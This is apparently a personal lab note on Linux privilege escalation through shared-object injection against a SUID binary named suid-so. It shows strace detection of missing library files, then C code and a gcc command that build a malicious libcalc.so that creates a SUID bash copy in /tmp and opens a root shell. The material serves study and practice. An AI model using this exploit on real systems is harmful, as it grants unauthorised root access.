 # Detection
---
![[Pasted image 20250429155835.png]]
- While running it:
	- ![[Pasted image 20250429155914.png]]
- Using `strace`to trace the execution:
	- It is trying to access some files that are not even present:
	- ![[Pasted image 20250429160026.png]]
	- `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`:
		- ![[Pasted image 20250429160116.png]]
	- **==We can inject our malicious code in a file and rename it to the files the code is trying to access.==**

# Exploitation
---
- Create file `libcalc.c`in  `/home/user/.config`:
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
- Compile using:
	- `gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`
- ![[Pasted image 20250429160908.png]]
- Run `/usr/local/bin/suid-so` again:
	- ![[Pasted image 20250429160954.png]]